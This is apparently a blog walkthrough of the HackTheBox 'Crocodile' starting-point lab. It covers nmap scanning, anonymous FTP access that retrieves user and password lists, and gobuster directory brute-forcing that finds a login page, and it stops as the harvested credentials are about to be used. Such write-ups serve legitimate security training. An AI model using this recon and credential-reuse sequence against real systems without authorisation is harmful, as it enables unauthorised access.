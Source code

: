 ```yaml
---
title: HackTheBox - Crocodile
date: 2023-12-27 09:57:00 +0700
categories:
  - HackTheBox
  - Starting Point
tags:
  - web
  - ftp
  - very_easy
  - hackthebox
image:
  path: /assets/img/hackthebox/starting_points/Crocodile.png
  alt: Crocodile - HackTheBox
---
```


[**Crocodile**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Crocodile we will learn about **??**.

## Introduction

- Connect **Crocodile** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After spawn machine, we can start with `ping` Target IP.

```bash
❯ ping 10.129.23.227

PING 10.129.23.227 (10.129.23.227) 56(84) bytes of data.
64 bytes from 10.129.23.227: icmp_seq=1 ttl=63 time=222 ms
64 bytes from 10.129.23.227: icmp_seq=2 ttl=63 time=241 ms
64 bytes from 10.129.23.227: icmp_seq=3 ttl=63 time=571 ms
64 bytes from 10.129.23.227: icmp_seq=4 ttl=63 time=260 ms

--- 10.129.23.227 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 222.356/323.275/570.700/143.454 ms
```

### Nmap

Scan ports using `nmap`, `-sCV` is a combination of `-sC` and `-sV`, where `-sC` displays the script for the port and `-sV` displays the version info for the port, `-T4` to speed up scanning (the higher the faster [0-5]).

```bash
❯ nmap -sCV -T4 10.129.23.227

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-27 09:35 WIB
Nmap scan report for JSN.JaringanKU (10.129.23.227)
Host is up (0.24s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE    SERVICE      VERSION
21/tcp   open     ftp          vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp   open     http         Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Smash - Bootstrap Business Template
1077/tcp filtered imgames
1688/tcp filtered nsjtp-data
1971/tcp filtered netop-school
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.07 seconds
```

You can see, there are 5 ports and only 2 are open, 21/tcp which is the ftp service and 80/tcp which is the http service.

If analyzed more deeply, in the ftp section `anonymous` login is allowed, and there are 2 files, let's take them.

### FTP

```bash
❯ ftp 10.129.23.227

Connected to 10.129.23.227.
220 (vsFTPd 3.0.3)
Name (10.129.23.227:huda): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.

ftp> get allowed.userlist
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
226 Transfer complete.
33 bytes received in 0,000122 seconds (264 kbytes/s)

ftp> get allowed.userlist.passwd
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
226 Transfer complete.
62 bytes received in 0,000132 seconds (459 kbytes/s)
```

After that read the file.

```
aron
pwnmeow
egotisticalsw
admin
```
{: file='allowed.userlist'}

```
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```
{: file='allowed.userlist.passwd'}

OK, let's try logging in to FTP using one of these users.

```bash
❯ ftp 10.129.23.227

Connected to 10.129.23.227.
220 (vsFTPd 3.0.3)
Name (10.129.23.227:huda): admin
530 This FTP server is anonymous only.
ftp: Login failed.
ftp> 
```

And the result cannot be that only `anonymous` users can log in, it is possible that the user is for the http service. Let's go to the website.

## Foothold

After entering the web, we are presented with the main web display, and after investigating there are no tabs leading to the login page, therefore we will fuzz the web using `gobuster`

![Desktop View](/assets/img/hackthebox/starting_points/include/Crocodile-1.png){: .w-75}

### Gobuster

`dir` is used to scan directories, `-u` is used to scan the destination URL, `-w` is used as a wordlist/words that may be in the destination URL, and `-x` is used to scan extensions

```bash
❯ gobuster dir -u http://10.129.23.227/ -w /usr/share/dirbuster/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.23.227/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 58565]
/login.php            (Status: 200) [Size: 1577]
/assets               (Status: 301) [Size: 315] [--> http://10.129.23.227/assets/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.23.227/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.23.227/js/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/config.php           (Status: 200) [Size: 0]
Progress: 7600 / 262995 (2.89%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 7606 / 262995 (2.89%)
===============================================================
Finished
===============================================================
```

We can see, there is login.php. Come on, go back to the website. Login with the username and password provided in the file earlier.

![Desktop View](/assets/img/hackthebox/starting_points/include/Crocodile-2.png){: .w-75}
![Desktop View](/assets/img/hackthebox/starting_points/include/Crocodile-3.png){: .w-75}